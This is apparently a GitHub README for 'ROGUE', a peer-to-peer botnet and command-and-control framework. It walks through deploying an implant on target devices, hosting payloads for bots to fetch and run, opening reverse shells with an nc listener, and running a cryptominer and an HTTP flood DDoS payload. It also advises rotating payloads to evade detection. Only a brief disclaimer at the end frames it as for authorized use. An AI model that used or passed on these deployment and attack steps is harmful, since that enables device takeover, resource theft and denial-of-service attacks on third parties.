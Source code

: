 # r0gue

ROGUE is a manually-deployed peer-to-peer and command-and-control (C2) botnet framework built for secure multi-device orchestration. It supports encrypted communication using AES, with optional peer-to-peer fallback if the primary C2 is unreachable. 
ROGUE supports implants on Linux laptops, Raspberry Pi, Termux (Android), iOS environments.

## Installation

To clone ROGUE from your Kali system, run:

```bash
git clone https://github.com/ekomsSavior/rogue.git
cd rogue
```

## install dependencies manually:

```bash
sudo apt update
sudo apt install python3 python3-pip
pip3 install pycryptodome
```

## File Structure

- `rogue_c2.py` – Encrypted command-and-control server
- `rogue_implant.py` – Bot implant for manual deployment
- `payloads/` – Folder containing optional executable payload modules (e.g. `ddos.py`, `mine.py`)

## Usage

To start the command-and-control server on Kali:

```bash
python3 rogue_c2.py
```

To convert a device into a bot, copy `rogue_implant.py` to the target device, edit the `C2_HOST` variable in the script to point to your C2’s IP address, and run:

```bash
python3 rogue_implant.py
```

The bot will persistently attempt to reconnect. If the C2 becomes unreachable, it will use peer-to-peer logic to scan for other known ROGUE bots on the network.

To serve payloads to bots, navigate into the `payloads/` folder on the C2 system and run:

```bash
python3 -m http.server 8000
```

## Sending Commands

Once bots are connected to the C2, you may issue commands using the terminal interface. Example commands include:

```text
load_payload mine.py        # Instruct bot to fetch payload from your hosted server
run_payload mine.py         # Execute fetched payload
reverse_shell               # Open reverse shell (C2 must be listening on port 9001)
```

To listen for a reverse shell from a bot:

```bash
nc -lvnp 9001
```

## Maintaining Bots

Rogue bots must have stable access to Python3 and network connectivity. You are responsible for copying the implant to each device. To maintain operational control:
- Keep your C2 running and listening for new connections
- Keep the payload server online (e.g. using Python's built-in HTTP server)
- Periodically rotate or update payload scripts to improve functionality or evade detection

## Payload Examples

- `mine.py`: Simulates lightweight CPU-based cryptocurrency mining by continuously hashing
- `ddos.py`: Launches a multi-threaded HTTP flood attack on a given IP/port 
- Future payloads may include webcam capture, file exfiltration, etc...

## Disclaimer

Do not deploy ROGUE on any device, network, or system that you do not own or have explicit permission to operate on. Misuse of this tool may violate local, state, or federal laws. The developers assume no liability and provide this software without warranty or support.


